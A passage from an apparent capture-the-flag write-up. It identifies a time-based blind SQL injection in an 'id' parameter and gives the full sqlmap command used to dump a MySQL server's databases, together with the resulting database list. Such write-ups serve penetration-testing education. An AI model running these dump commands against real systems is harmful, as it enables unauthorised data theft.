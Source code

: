 ![](./IMG/54.png)
- According to above result, I think that is blind sqli by time-based.

![](./IMG/55.png)
- After above test and enumerate in victim host,
    - The DBMS is MySQL (since port 3306 is mysql default port)
    - The injection parameter is 'id'
    - The Sql attack method definetly is Blind Sql injection, so I try B: Boolean-based and T: Time-based
- Let's try the following one.
```
sqlmap -u "http://localhost:9696/?id=1" --dbms "MySQL" --technique BT -p id --dump-all --batch --dbs
```
- And I got the result as follow:
```
information_schema
mysql
performance_schema
soccer_db
sys
```
- The soccer_db is my target
